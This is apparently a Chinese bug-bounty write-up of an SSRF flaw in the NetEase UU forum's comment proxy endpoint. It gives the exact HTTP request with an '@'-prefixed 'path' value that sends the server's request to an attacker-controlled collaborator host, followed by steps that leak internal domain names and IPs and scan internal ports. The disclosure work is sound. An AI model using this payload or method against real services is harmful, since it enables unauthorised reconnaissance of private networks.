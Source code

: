 ```yaml
---
layout: post
title:  "低危：网易UU论坛深井Web版评论等功能存在SSRF漏洞"
date:   2023-09-20 10:26:18 +0800
categories: xss
---
```


## Name

> 网易UU论坛深井Web版评论等功能存在SSRF漏洞

## Weakness
> web漏洞，SSRF

## Severity
> 低危

## URL
- POST https://sowellwell.com/w/v1/comment/proxy


## Key Payload

    POST /w/v1/comment/proxy HTTP/2
    Host: sowellwell.com
    Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
    Content-Length: 351
    Identifier: jssdk_sD3SHpGpz24cW77h
    Accept: application/json, text/plain, */*
    Content-Type: application/json;charset=UTF-8
    Sec-Ch-Ua-Platform: "Windows"
    Origin: https://sowellwell.com
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
    Accept-Encoding: gzip, deflate

    {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}


## Summary
网易UU加速器论坛深井`https://sowellwell.com`的回复点赞等功能存在ssrf漏洞，攻击者能够通过该漏洞遍历内网机器和开放端口。

### Detail
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### Trigger
1. 登录Web版深井账号，并且点开任意帖子并且发表评论或者对某评论进行点赞操作，同时用burpsuite记录点赞时的请求为POST请求`https://sowellwell.com/w/v1/comment/proxy`
![like](/assets/uu_ssrf/like.png)

2. 观察到请求体中有一个`path`字段，指向某个相对路径，于是尝试用@符号进行绕过。如下：

        某域名+/like/apps/uu/server/create_like = 完整url
        某域名+@攻击者控制的域名+/like/apps/uu/server/create_like = 攻击者url，而原始的域名则解析为账号字段
3. 将`path`字段修改为burp collaborator进行测试
        
        POST /w/v1/comment/proxy HTTP/2
        Host: sowellwell.com
        Cookie: jssdk_deviceid=xxx; _sj_web_session_id=xxx
        Content-Length: 351
        Identifier: jssdk_sD3SHpGpz24cW77h
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua-Platform: "Windows"
        Origin: https://sowellwell.com
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://sowellwell.com/ts/1WF/4zM4?from=comment
        Accept-Encoding: gzip, deflate

        {"path":"@f5lknriqserdumix73rrr8s32u8lwbk0.oastify.com/like/apps/uu/server/create_like","method":"POST","params":{"uid":"140250100348","msg_id":"64ff26109bee0901b241c179","user_info":{"game_uid":"140250100348","name":"笠泽九斤翅子树","avatar":"https://uu.fp.ps.netease.com/file/64e4d0622935c59e9fcafa18xTIqMl0f05","user_type":1,"extra":""}},"id":"64fefa7c25eb02e49155e0a7","server_type":1}

    collaborator接收到UU服务器发送的请求：
    ![collabo](/assets/uu_ssrf/collabo.png)

4. 获取内网域名

    将地址故意填错，可以观察到返回的错误字段包含内网域名信息，例如`path`字段填`abc`，服务器返回错误域名为：`in.mobile-community.uu.netease.comabc`，那么原始的域名为`in.mobile-community.uu.netease.com`

    ![domain](/assets/uu_ssrf/domain.png)

5. 获取域名IP地址
    
    通过dig命令可以查看该域名绑定的内网地址为`10.90.105.177`
    ![dig](/assets/uu_ssrf/dig.png)

6. 遍历内网IP

    获取启动的服务ip：
    ![valid](/assets/uu_ssrf/valid.png)

    未启动的服务ip：
    ![invalid](/assets/uu_ssrf/invalid.png)

7. 遍历内网开放端口

    以`10.90.105.241`为例，尝试遍历常见端口，发现端口8080开放
    ![ports](/assets/uu_ssrf/ports.png)

    
### Proof
请提供截图或视频

## Impact
1. 攻击者通过该漏洞遍历内网IP和端口开放信息，造成内网信息泄露
## Patch advice
1. 对潜在的请求`path`字段进行合法性校验

